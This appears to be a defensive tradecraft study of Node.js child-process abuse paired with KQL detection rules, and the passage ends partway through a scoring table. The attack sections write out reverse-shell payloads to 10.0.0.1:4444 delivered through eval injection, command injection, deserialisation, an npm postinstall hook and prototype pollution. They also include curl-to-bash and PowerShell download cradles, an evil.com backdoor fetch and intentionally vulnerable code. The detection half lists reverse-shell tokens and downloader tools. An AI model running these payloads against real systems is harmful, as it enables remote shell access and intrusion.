










# Node.js Child Process Abuse — Tradecraft Study & Detection Architecture

**Author:** Ala Dabat | 2026  
**Framework:** [Minimum Truth Detection Framework](https://github.com/azdabat/Minimum-Truth-Detection-Framework-ADX-Validated-Composite-Rules)  
**MITRE ATT&CK:** T1059.007 — JavaScript / Node.js  
**Tactic:** Execution → Persistence → Command & Control  
**Classification:** Novel Tradecraft Research  

---

> *"Node.js is not a malware delivery vehicle.*  
> *It is a trusted runtime that attackers weaponise.*  
> *The minimum truth is not the JavaScript — it is what the JavaScript spawns."*

---

## Table of Contents

- [1. Attack Surface Overview](#1-attack-surface-overview)
- [2. Reconnaissance — How Attackers Identify Node.js Backends](#2-reconnaissance)
- [3. Initial Access Vectors](#3-initial-access-vectors)
- [4. Prototype Pollution — Deep Dive](#4-prototype-pollution--deep-dive)
- [5. Payload Dissection — The Reverse Shell Chain](#5-payload-dissection)
- [6. Full Attack Kill Chain](#6-full-attack-kill-chain)
- [7. Detection Architecture](#7-detection-architecture)
- [8. Primitive Collector — NodeJS_ChildProcess_Atomic](#8-primitive-collector)
- [9. Composite Sensor — NodeJS_SuspiciousChildProcesses](#9-composite-sensor)
- [10. Router Rule — NodeJS_ChildProcess_Abuse_Router](#10-router-rule)
- [11. PEAK/TAHITI Hunt Query](#11-peaktahiti-hunt-query)
- [12. How the Three Layers Interact](#12-how-the-three-layers-interact)
- [13. Cousin Technique Ecosystem](#13-cousin-technique-ecosystem)
- [14. Operational Recommendations](#14-operational-recommendations)

---

## 1. Attack Surface Overview

Node.js is a cross-platform JavaScript runtime powering web servers, APIs, microservices, and real-time applications. Its `child_process` module — which allows JavaScript to execute system commands — is the primary attack surface.

When an attacker achieves code execution within a Node.js process, the `child_process` module becomes a shell escape mechanism: JavaScript sandbox → operating system shell → full remote access.



**The irreducible minimum truth:** `node.exe` or `node` spawning a shell, downloader, or interpreter with RCE-indicative command-line content.

---

## 2. Reconnaissance

Before exploiting a Node.js application, attackers confirm the technology stack through passive and active techniques.



| Signal | Indicator | Confidence |
|--------|-----------|------------|
| `X-Powered-By: Express` | Response header | HIGH |
| `/node_modules/` in stack trace | Error response | HIGH |
| `set-cookie: express:sess=` | Session cookie | HIGH |
| `Cannot GET /[path]` format | 404 response body | MEDIUM |
| `/socket.io/?EIO=4&transport=polling` | Network request | HIGH |
| JA3 fingerprint matching Node.js OpenSSL | TLS handshake | MEDIUM |
| PayloadTooLargeError on >100KB body | HTTP 413 response | MEDIUM |

---

## 3. Initial Access Vectors

### 3.1 Server-Side JavaScript Injection (SSJI)

Direct execution of attacker-controlled JavaScript via `eval()` or `new Function()`.

```javascript
// VULNERABLE APPLICATION CODE
app.get('/eval', (req, res) => {
    let result = eval(req.query.code);  // Never do this
    res.send(result);
});
```

**Attacker request:**
```
GET /eval?code=require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/10.0.0.1/4444+0>%261"')
```



---

### 3.2 Command Injection

Unsanitised user input concatenated into a shell command.

```javascript
// VULNERABLE APPLICATION CODE
app.get('/ping', (req, res) => {
    exec('ping -c 4 ' + req.query.host, (err, stdout) => {
        res.send(stdout);
    });
});
```

**Attacker payload:**
```
GET /ping?host=10.0.0.1;+bash+-c+"bash+-i+>%26+/dev/tcp/10.0.0.1/4444+0>%261"
```

The `;` character terminates the `ping` command and begins the attacker's shell.

---

### 3.3 Deserialisation Attack

The `node-serialize` package executes code within function expressions during deserialisation.

**Malicious serialised payload:**
```json
{
  "rce": "_$$ND_FUNC$$_function(){require('child_process').exec('bash -c \"bash -i >& /dev/tcp/10.0.0.1/4444 0>&1\"')}()"
}
```

The `_$$ND_FUNC$$_` prefix causes `node-serialize` to treat the string as a function — and the trailing `()` invokes it immediately on deserialisation.

---

### 3.4 Supply Chain — Malicious postinstall Hook

```json
{
  "name": "legitimate-looking-package",
  "scripts": {
    "postinstall": "node -e \"require('child_process').exec('bash -c \\\"bash -i >& /dev/tcp/10.0.0.1/4444 0>&1\\\"')\""
  }
}
```

Executes on `npm install`. The Node.js process spawning `bash` is still the minimum truth signal — even in supply chain scenarios.

---

## 4. Prototype Pollution — Deep Dive

### 4.1 The Mechanism

In JavaScript, every object inherits from `Object.prototype`. A vulnerable recursive merge function allows an attacker to write arbitrary properties to this shared prototype — making those properties available to every object in the application.

```javascript
// VULNERABLE MERGE FUNCTION
function merge(target, source) {
    for (let key in source) {
        if (typeof target[key] === 'object' && typeof source[key] === 'object')
            merge(target[key], source[key]);  // Recursion without key sanitisation
        else
            target[key] = source[key];        // Writes __proto__ properties
    }
}
```

**Attacker payload:**
```json
{"__proto__": {"isAdmin": true}}
```

After this merge, `({}).isAdmin === true` everywhere in the application.

```mermaid
flowchart TD
    A["Attacker sends:\n{\"__proto__\": {\"isAdmin\": true}}"]
    B["merge() traverses the key '__proto__'"]
    C["Writes isAdmin=true\nto Object.prototype"]
    D["ALL objects in application\nnow have isAdmin=true"]
    E["Authentication check:\nif (req.user.isAdmin) → BYPASSED"]

    A --> B --> C --> D --> E
```

---

### 4.2 Prototype Pollution to Remote Code Execution

The EJS template engine uses an `escapeFunction` option passed to `new Function()`. If `Object.prototype.escapeFunction` is polluted with executable JavaScript, EJS executes it at render time.

**Attack sequence:**



**Step 1 — Poison the prototype:**
```json
POST /api/settings
{
  "__proto__": {
    "escapeFunction": "function(){return require(\"child_process\").execSync(\"bash -c \\\"bash -i >& /dev/tcp/10.0.0.1/4444 0>&1\\\"\")}"
  }
}
```

**Step 2 — Trigger execution:**
```
GET /profile
```

Any page render now executes the attacker's code — the reverse shell fires.

---

### 4.3 Prototype Pollution Payload Taxonomy

| Goal | Payload | Sink |
|------|---------|------|
| Authentication bypass | `{"__proto__": {"role": "admin"}}` | `if (user.role === 'admin')` |
| MongoDB data dump | `{"__proto__": {"username": {"$regex": ".*"}}}` | `User.find({...merged})` |
| SQL injection via ORM | `{"__proto__": {"where": ["1=1"]}}` | Sequelize `where` option |
| Path traversal | `{"__proto__": {"filename": "../../../etc/passwd"}}` | `fs.readFile(config.filename)` |
| Direct command override | `{"__proto__": {"cmd": "curl http://evil.com/backdoor.sh \| bash"}}` | `exec(config.cmd)` |
| EJS RCE | `{"__proto__": {"escapeFunction": "...execSync..."}}` | `ejs.render()` |

---

## 5. Payload Dissection

### 5.1 The Classic Bash Reverse Shell

```bash
bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"
```



**Step by step:**

| Component | Function |
|-----------|----------|
| `bash -c "..."` | Outer shell — necessary because `/dev/tcp` is a bash extension, not POSIX sh |
| `bash -i` | Starts an interactive bash shell with prompt and readline support |
| `>&` | Redirects both stdout (1) and stderr (2) to the following target |
| `/dev/tcp/10.0.0.1/4444` | Bash pseudo-device — opens a TCP connection to the C2 IP on port 4444 |
| `0>&1` | Redirects stdin (0) from the same file descriptor — making the socket bidirectional |

**Process creation telemetry (the irreducible minimum truth):**

```
ParentProcess : node
ChildProcess  : bash
CommandLine   : bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"
```

---

### 5.2 Download-and-Execute Chain

```bash
curl http://10.0.0.1/shell.sh | bash
```

Two processes generated:
1. `node → curl http://10.0.0.1/shell.sh`
2. `curl stdout → bash stdin` via pipe

The pipe-to-shell pattern is a high-confidence RCE indicator because legitimate `node → curl` invocations never pipe their output directly to a shell interpreter.

---

### 5.3 Windows PowerShell Cradle

```powershell
powershell.exe -NoP -sta -NonI -W Hidden -Enc [base64_payload]
```

Or explicit download:
```powershell
powershell.exe -ExecutionPolicy Bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.0.0.1/payload.ps1')"
```

**Telemetry:**
```
ParentProcess : node.exe
ChildProcess  : powershell.exe
CommandLine   : powershell.exe -Enc AABBAABB... (400+ char base64)
```

---

## 6. Full Attack Kill Chain



---

## 7. Detection Architecture

All rules use **Intent-First anchoring**: `node.exe` alone is ubiquitous and legitimate. The intent is visible only in what it spawns and the command-line content of those children.



### Detection Coverage Matrix

| Attack Vector | Primitive | Router | Composite | Hunt |
|--------------|-----------|--------|-----------|------|
| SSJI → bash reverse shell | ✅ | ✅ | ✅ | ✅ |
| Prototype pollution → EJS RCE | ✅ | ✅ | ✅ | ✅ |
| Command injection → bash | ✅ | ✅ | ✅ | ✅ |
| Deserialisation → exec() | ✅ | ✅ | ✅ | ✅ |
| Supply chain postinstall | ✅ | ✅ | ✅ | ✅ |
| Node → curl \| bash | ✅ | ✅ | ✅ | ✅ |
| Node → PowerShell cradle (Windows) | ✅ | ✅ | ✅ | ✅ |
| Node → python reverse shell | ✅ | ✅ | ✅ | ✅ |
| Novel sub-threshold variant | ✅ | ❌ | ❌ | ✅ |

---

## 8. Primitive Collector

**Purpose:** Silent 30-day rolling index of every Node.js child process event. Zero inference. All rows preserved. The foundation for incident stitching and retroactive investigation.

**Architecture:** 6 — Primitive Collector  
**Inference:** ZERO — "node.exe spawned a child process"  
**Threshold:** None  
**Lookback:** 30 days fixed  
**Lifecycle:** Permanent

```kql
// ============================================================================
// PRIMITIVE COLLECTOR: NodeJS_ChildProcess_Atomic
// ============================================================================
// Architecture  : Primitive Collector (Layer 1 — Inference: ZERO)
// Author        : Ala Dabat | MTDF 2026
// Platform      : MDE Advanced Hunting — DeviceProcessEvents
// Lifecycle     : Permanent — 30-day rolling index (silent, no alert)
// MITRE         : T1059.007 — JavaScript / Node.js
//
// INFERENCE DEPTH: ZERO
//   Claim: "Node.js spawned a child process"
//   No assertion of intent. No assertion of malice.
//   Every row is preserved — no summarise, no arg_max, no threshold.
//
// ENTITY KEYS: DeviceId · DeviceName · AccountName · SHA256
// COMPOSITE BACKING: NodeJS_SuspiciousChildProcesses ✅ BUILT
//
// WHY THIS IS THE MINIMUM TRUTH:
//   node.exe spawning anything is the irreducible substrate event.
//   The child process identity and command line are the entity keys
//   for incident stitching across a 30-day timeline.
//
// NOTE: NO summarise. NO arg_max. NO threshold. ALL rows preserved.
// ============================================================================

let lookback = 30d;

// Known-legitimate Node.js child processes — filtered at Phase 1
// to reduce noise before indexing. These are NEVER attacker-controlled.
let LegitNodeChildren = dynamic([
    "node", "node.exe",    // Node.js itself (child Node processes)
    "npm", "npm.cmd",      // Package manager
    "npx", "npx.cmd",      // Package runner
    "yarn",                // Yarn package manager
    "git",                 // Git operations
    "webpack", "webpack.cmd",
    "eslint",
    "ts-node"
]);

DeviceProcessEvents
| where Timestamp > ago(lookback)
// Phase 1: Node.js as the initiating process (the substrate)
| where InitiatingProcessFileName in~ ("node", "node.exe")
// Phase 1: Exclude known-legitimate children immediately
// This is NOT a security exclusion — it is a signal reduction filter.
// If a legitimate child name is used as a dropper alias, it still appears
// in the composite sensor which checks command-line content.
| where not(FileName in~ (LegitNodeChildren))
// No scoring. No threshold. All rows preserved.
| project
    Timestamp,
    DeviceId,
    DeviceName,
    AccountName = coalesce(AccountName, InitiatingProcessAccountName, ""),
    ParentProcess    = InitiatingProcessFileName,
    ParentFolder     = InitiatingProcessFolderPath,
    ParentCmdLine    = InitiatingProcessCommandLine,
    ParentSHA256     = InitiatingProcessSHA256,
    ChildProcess     = FileName,
    ChildCmdLine     = ProcessCommandLine,
    ChildSHA256      = SHA256,
    Platform         = iff(FileName endswith ".exe", "Windows", "Linux/Mac"),
    MITRE            = "T1059.007"
| sort by Timestamp asc
// Timeline sort — ascending for incident stitching and chain reconstruction
```

**Design decisions:**

| Decision | Rationale |
|----------|-----------|
| `not(FileName in~ (LegitNodeChildren))` at Phase 1 | Reduces index volume. These children cannot be attacker-controlled entry points. |
| No `summarise` or `arg_max` | Every individual event preserved for timeline reconstruction across 30 days. |
| `sort by Timestamp asc` | Ascending order for incident narrative — earliest event first. |
| `coalesce(AccountName, InitiatingProcessAccountName, "")` | Handles Linux where AccountName may be empty — uses parent process account instead. |
| Platform field | Enables downstream composites to apply platform-specific signal weights. |

---

## 9. Composite Sensor

**Purpose:** High-confidence production alert when Node.js spawns a shell, downloader, or interpreter with RCE-indicative command-line content.

**Architecture:** 1 — Composite Sensor  
**Inference:** HIGH — "Node.js RCE via child process is confirmed or highly likely"  
**Base Score:** 55  
**Threshold:** ≥ 75  
**Lifecycle:** Permanent (ADX validation pending)

### Scoring Decision Table

| Signal | Points | Rationale |
|--------|--------|-----------|
| Base (minimum truth) | 55 | node → dangerous child is structural truth |
| `HasReverseShell` | +30 | `/dev/tcp/` or socket reverse shell = near-certain malicious |
| `HasWindowsCradle` | +30 | PowerShell IEX/DownloadString from Node = confirmed cradle |
| `HasPipeToShell` | +25 | `\| bash` / `\| sh` = download-and-execute chain |
| `HasRemoteURL` | +20 | External URL in child command = staging indicator |
| `HasBase64` | +15 | Encoded payload = obfuscation intent |
| `IsManagedEnv` | -25 | CI/CD context (Jenkins/build agents) = soft penalty |

### Minimum Fire Paths

```
Base 55 + HasReverseShell 30  = 85 ≥ 75  ✓  (reverse shell)
Base 55 + HasWindowsCradle 30 = 85 ≥ 75  ✓  (PowerShell cradle)
Base 55 + HasPipeToShell 25   = 80 ≥ 75  ✓  (pipe-to-shell)
Base 55 + HasRemoteURL 20     = 75 ≥ 75  ✓  (remote URL alone)
```

```kql
// ============================================================================
// COMPOSITE SENSOR: NodeJS_SuspiciousChildProcesses (Cross-Platform)
// ============================================================================
// Architecture  : Composite Sensor (Architecture 1 — Inference: HIGH)
// Author        : Ala Dabat | MTDF 2026
// Platform      : MDE Advanced Hunting — Linux + Windows
// Lifecycle     : Production-Candidate (ADX validation pending)
// MITRE         : T1059.007 · T1059.001 (Windows PowerShell variant)
// Anchoring     : Intent-First
//
// MINIMUM TRUTH ANCHOR:
//   Node.js spawned a shell, download tool, or script interpreter
//   WITH command-line evidence of RCE intent:
//   reverse shell primitive / pipe-to-shell / remote URL / encoded payload
//
// INFERENCE DEPTH: HIGH
//   Claim: "Node.js RCE via child process abuse is confirmed or highly likely"
//
// INDEPENDENT SENSOR: No cross-table joins at Phase 1.
//   Correlation with network events happens at the incident layer via DeviceId.
//   Ghost chains produce false certainty. Independent sensors produce truth.
//
// PRIMITIVE BACKING: NodeJS_ChildProcess_Atomic ✅ BUILT
//
// COUSIN SENSORS (build next):
//   1. PHP_exec_Abuse (T1059.004) — php-fpm spawning bash/curl
//   2. Python_subprocess_Abuse (T1059.006) — gunicorn/uwsgi spawning shells
//   3. Java_Runtime_Exec_Abuse (T1059) — Tomcat/Spring spawning cmd/bash
//
// MINIMUM FIRE PATHS:
//   Base 55 + HasReverseShell 30  = 85 >= 75 ✓
//   Base 55 + HasWindowsCradle 30 = 85 >= 75 ✓
//   Base 55 + HasPipeToShell 25   = 80 >= 75 ✓
//   Base 55 + HasRemoteURL 20     = 75 >= 75 ✓
// ============================================================================

let lookback = 7d;

// ── ALLOWLISTS ────────────────────────────────────────────────────────────────
// Soft down-score context — never hard exclusion
// An attacker who names their tool "webpack" is caught by command-line signals
let AllowedChildren = dynamic([
    "node", "node.exe", "npm", "npm.cmd", "npx", "npx.cmd",
    "yarn", "git", "docker", "webpack", "eslint", "gulp",
    "ts-node", "pm2"
]);

// Child process categories by platform
let Shells_Linux       = dynamic(["bash","dash","sh","zsh","fish","busybox"]);
let Downloaders_Linux  = dynamic(["curl","wget","nc","ncat","socat"]);
let Interpreters_Linux = dynamic(["python","python2","python3","perl","ruby","lua"]);
let WinSuspChildren    = dynamic([
    "powershell.exe","pwsh.exe","cmd.exe","wscript.exe",
    "cscript.exe","certutil.exe","bitsadmin.exe","mshta.exe"
]);

// RCE command-line primitives
let ReverseShellTokens = dynamic([
    "/dev/tcp/",
    "exec 5<>",
    "0<&196;exec 196<>/dev/tcp/",
    "socket.socket(",
    "subprocess.call(",
    "os.dup2("
]);
let PipeToShellTokens = dynamic([
    "| bash", "| sh", "| dash", "| zsh",
    "| perl", "| python", "| python3", "| lua"
]);

// ── PHASE 1: MINIMUM TRUTH ───────────────────────────────────────────────────
// WHY THIS IS MINIMUM TRUTH:
// node.exe spawning a shell, downloader, or interpreter is the irreducible
// substrate event. The binary name alone is the anchor — command-line content
// in Phase 2 provides the convergence to confirm intent.
// No legitimate enterprise use case produces: node → bash with /dev/tcp
DeviceProcessEvents
| where Timestamp > ago(lookback)
| where InitiatingProcessFileName in~ ("node", "node.exe")
| where not(FileName in~ (AllowedChildren))
| where FileName in~ (Shells_Linux)
     or FileName in~ (Downloaders_Linux)
     or FileName in~ (Interpreters_Linux)
     or FileName in~ (WinSuspChildren)

// ── PHASE 2: NATIVE ENRICHMENT ───────────────────────────────────────────────
// InitiatingProcess* fields — no joins required at this phase
// [FIX-8] toint() on all boolean signal flags
| extend
    // [PLATFORM]
    IsLinux   = toint(not(FileName endswith ".exe")),
    IsWindows = toint(FileName endswith ".exe"),

    // [TECHNIQUE] Reverse shell primitives — highest confidence signal
    HasReverseShell = toint(ProcessCommandLine has_any (ReverseShellTokens)),

    // [TECHNIQUE] Pipe-to-shell — download-and-execute chain
    HasPipeToShell  = toint(ProcessCommandLine has_any (PipeToShellTokens)),

    // [TECHNIQUE] Remote URL in command line — staging indicator
    HasRemoteURL    = toint(ProcessCommandLine matches regex
                        @"\b(https?|ftp|ftps)://[^\s'""]+"),

    // [OBFUSCATION] Base64/encoded payload
    HasBase64       = toint(ProcessCommandLine has_any (
                        "-enc", "-EncodedCommand",
                        "base64 -d", "base64 --decode")),

    // [TECHNIQUE] Windows PowerShell cradle from Node
    HasWindowsCradle = toint(FileName in~ ("powershell.exe","pwsh.exe")
                        and ProcessCommandLine has_any (
                            "IEX","Invoke-Expression",
                            "New-Object Net.WebClient","DownloadString",
                            "Invoke-WebRequest","iwr",
                            "-ExecutionPolicy Bypass")),

    // [SUPPRESSION] Known CI/CD or managed build environment
    // Soft penalty — never hard exclusion
    IsManagedEnv = toint(
        InitiatingProcessFolderPath has_any (
            "/home/jenkins", "/opt/build/",
            "C:\\ProgramData\\Jenkins",
            "/var/lib/gitlab-runner")
        or AccountName has_any (
            "svc-jenkins", "builduser", "gitlab-runner",
            "svc-build", "cicd-svc"))

// ── PHASE 3: CONVERGENCE SCORING ─────────────────────────────────────────────
// SCORING DECISION TABLE:
// ┌───────────────────────┬────────┬────────────────────────────────────────┐
// │ Signal                │ Points │ Rationale                              │
// ├───────────────────────┼────────┼────────────────────────────────────────┤
// │ Base (minimum truth)  │   55   │ node → dangerous child = structural    │
